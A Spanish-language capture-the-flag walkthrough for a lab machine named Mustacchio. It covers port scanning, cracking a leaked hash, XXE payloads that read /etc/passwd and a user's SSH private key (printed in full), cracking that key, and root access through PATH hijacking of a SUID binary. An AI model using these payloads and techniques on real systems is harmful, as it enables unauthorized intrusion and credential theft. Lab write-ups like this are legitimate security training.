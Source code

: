 # Mustacchio

## Scanning

```bash
nmap -sS -p- --min-rate 5000 -vvv --open -Pn -n -oG allports 10.10.0.151
nmap -sC -sV -p 22,80 -Pn -n -oN targeted 10.10.0.151
```

![0814160418.png](0814160418.png)

## 80

Para la página usamos wfuzz para buscar carpetas en la página. Encontramos que existe la carpeta custom y dentro la carpeta js donde podemos ver el archivo `users.bak`.

![0814160416.png](0814160416.png)

Usamos el comando file para saber que tipo de archivo es.

![0814170529.png](0814170529.png)

Usaremos la herramienta que tenemos en parrot llamada sqlitebrowser para importar el archivo que debemos cambiar el nombre a '**users.sqlite**' aquí encontraremos un usuario y una contraseña o podría ser un hash.

![0814170503.png](0814170503.png)

Descubrimos que es algún tipo de sha1 así que usaremos john para crackear la contraseña.
![0814170546.png](0814170546.png)

## 8765

En https://IP:8765 encontramos un panel de administración donde podemos probar las credenciales que encontramos anteriormente.

![0816180630.png](0816180630.png)

En el código fuente encontramos un enlace como comentario. También había un comentario indicando que se podía entrar por ssh, esto lo tomaremos en cuenta más adelante.

![0816180626.png](0816180626.png)

Lo descargamos y encontramos que es un archivo xml.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```
Este es un ejemplo de como enviar el comentario que te dan en el sitio web. Usaremos el siguiente código para probar el xxe.

## XXE
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<comment>
  <name>&xxe;</name>
  <author>miaumilliano</author>
  <com>meow</com>
</comment>
```

Como nos dieron la pista de que se puede ingresar con ssh entonces buscaremos si tiene algún id_rsa para conectarse con los usuarios que encontramos con la anterior consulta(`joe` y `barry`).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&xxe;</name>
  <author>miaumilliano</author>
  <com>meow</com>
</comment>
```

Con barry encontramos resultados.

```
Name: -----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

Vemos que esta encriptado pero podemos usar ssh2john para encontrar la contraseña necesaria para usar esta id_rsa.

```bash
python2 /usr/share/john/ssh2john.py id_rsa > id_rsa.john

john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```

![0816180616](0816180616.png)

Ahora que encontramos la clave podemos ingresar al usuario barry.

```bash
ssh barry@10.10.211.98 -i id_rsa
```

![0816190721](0816190721.png)

## Privilege scalation

### SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

![0816190711](0816190711.png)

**/home/joe/livelog** parece ser un archivo sospechoso.
Al ejecutarlo podemos ver que lee los logs de la aplicación web.

Con la función ltrace vemos de que hace uso del comando tail
pero no usa una ruta absoluta por lo que podriamos cambiar el path para que busque primero en los archivos temporales un comando tail modificado que pueda ejecutar una terminal con los permisos que el SUID nos permita.

![0816190701](0816190701.png)

```
cd /tmp
echo "/bin/bash" > tail
chmod +x tail

export PATH=/tmp:$PATH
/home/joe/live_log
```

![0816190759](0816190759.png)
